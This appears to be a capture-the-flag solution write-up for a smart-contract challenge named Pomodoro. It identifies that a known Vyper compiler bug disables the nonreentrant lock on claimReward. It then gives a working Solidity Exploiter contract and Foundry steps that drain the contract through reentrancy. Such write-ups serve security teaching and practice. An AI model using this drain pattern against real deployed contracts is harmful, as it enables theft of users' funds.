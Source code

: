 # 0xjarix-Pomodoro - Solution

## Find the vulnerability

Looking at the contract we found that the only external call is present in `claimReward` function. Let's dive deeper.

```python
@external
@nonreentrant('')
def claimReward(_tokenId: uint256):
    # Verify NFT ownership
    assert PomodoroNFT(self.nftAddress).ownerOf(_tokenId) == msg.sender
    session: Session = self.sessions[msg.sender]

    # Ensure session is not currently paused
    assert not session.isPaused and session.ongoing

    # Calculate total session time including any previous accumulations
    totalSessionTime: uint256 = session.accumulatedTime
    totalSessionTime += block.timestamp - session.lastPause

    # Verify enough time has passed for a reward
    assert totalSessionTime >= self.sessionDuration

    # Calculate how many rewards are due
    rewardsDue: uint256 = totalSessionTime / self.sessionDuration

    # send rewards
    raw_call(msg.sender, b"", value=rewardsDue * (10 ** 16))

    # Reset or adjust session details based on remaining time
    self.remainingTime = totalSessionTime % self.sessionDuration
    self.sessions[msg.sender].ongoing = False
```

The function has a `@nonreentrant` decorator so in theory it can't be reentered. However looking at vyper specific version vulnerability [here](https://security.snyk.io/package/pip/vyper/0.3.9) we found [this](https://security.snyk.io/vuln/SNYK-PYTHON-VYPER-5905483). `@nonreentrant('')` lock is bugged and do not check for reentrancy. Bingo!

## Exploit the contract

To exploit the contract we just need to create a contract that re-enter the function.

```solidity
contract Exploiter {
    IPomodoro pomodoro;
    IPomodoroNFT pomodoroNFT;

    constructor(address _pomodoro, address _pomodoroNFT) {
        pomodoro = IPomodoro(_pomodoro);
        pomodoroNFT = IPomodoroNFT(_pomodoroNFT);
    }

    function mintAndStartWorkSession() external payable {
        pomodoroNFT.mint{value: 0.1 ether}(address(this));
        pomodoro.startWorkSession(4);
    }

    function attack() external {
        pomodoro.claimReward(4);
    }

    receive() external payable {
        if (address(pomodoro).balance > 0) {
            pomodoro.claimReward(4);
        }
    }
}
```

Just warp for 1 pomodoro session and attack the contract.

```solidity
Exploiter exploiter = new Exploiter(address(pomodoro), address(pomodoroNFT));
exploiter.mintAndStartWorkSession{value: 0.1 ether}();
vm.warp(25 minutes + 1);
exploiter.attack();
```
